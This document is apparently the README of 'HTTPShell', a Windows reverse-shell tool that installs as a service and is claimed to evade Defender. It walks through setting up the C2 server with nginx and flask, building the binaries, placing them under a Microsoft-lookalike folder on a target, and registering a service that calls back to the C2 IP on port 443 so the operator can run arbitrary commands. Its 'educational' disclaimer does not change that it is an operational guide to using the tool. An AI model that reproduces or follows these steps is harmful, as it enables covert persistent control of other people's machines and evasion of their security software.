 # HTTPShell
HTTPS Reverse shell. Installed as a service on Windows. Bypasses Defender as of 01/15/2025.

Tested on Windows 10 Pro with 01/15/25 update.

FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY! 

Requirements and preperation:
------------------
1. NGINX on the host: https://nginx.org/en/linux_packages.html 
2. python3 and venv on the host: https://virtualenv.pypa.io/en/latest/installation.html 
3. Back up the existing nginx.conf file.
4. Move the nginx.conf file from this repo into /etc/nginx/nginx.conf.
5. Create a key and certificate:
It's generally recommended to avoid self-signed certificates. Only do this for using in a test environment.
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:4096 -nodes -sha256
```
6. Place the pem file in /etc/nginx/cert/server.pem.
7. Create a virtual environment for the C2 server:
```
mkdir controlServer
python3 -m venv controlServer
cd controlServer
source bin/activate
pip3 install colorama flask
flask run
```
8. Run the nginx server:
```
service nginx start
```
9. Build docker container with dockerfile (dockerfile must be in current directory):
```
docker build .
```
10. Enter the container (find it with "docker ps -a"; should be at the top of the list):
```
docker exec -ti [container_name] /bin/bash
```
11. Exfiltrate the compiled binaries located in project directorys "InstallService" and "ServiceBinary" target/x86_64-pc-windows-gnu/debug/. I'll use
```
python3 -m http.server 80
```
then wget from host. You can create another container with "docker run" and mount folders. The HTTP server with python is my preferred method. These binaries should be:
```
windows_service_wrapper.exe
windows_Win32_Temp.dll
windows_Win32_Temp.exe
```

Creating the service on your target and running:
--------
This is a generic method. Use your own loaders/stagers to get the binaries on the host and run these commands.

1. Create the directory (this can be changed in the source code):
```
mkdir C:\programdata\MicrosoftW
```
2. Move the binaries and DLL into this directory.
3. As Administrator or with privileges allowing creation of services (Server Operators can start/stop service. Can not create them):
```
C:\programdata\MicrosoftW\windows_Win32_Temp.exe [C2 IP] [C2 Port; recommend 443] [service Binary Name] [service Binary Name] [desired timeout in seconds]
```
Example:
```
C:\programdata\MicrosoftW\windows_Win32_Temp.exe 172.16.0.5 443 myService myService 60
```
"service Binary Name" must be the same. Feel free to edit the source for yourself if you want to change this behavior.

4. Start the service (reboot target or use Administrator/Server Operator):
```
sc.exe start [service Binary Name]

OR with powershell

Start-Service [service Binary Name]
```

You should see a prompt in the flask server terminal. It expects the following options:
```
"Enter initialization option: "

Enter "1" to begin typing arbitrary OS commands such as "dir" or "powershell Get-Service".
Enter "2" to end the session and tell the service to "sleep". It will sleep in seconds equal to what you put in the command line arguments above. So 60 seconds if using the example. After the time expires, the service will attempt to reconnect to your server.
```

When entering "1" to get the command, you should see the following:
```
Enter command: 
```

You can also enter "2" in this "Enter command: " state that will sleep like explained above.
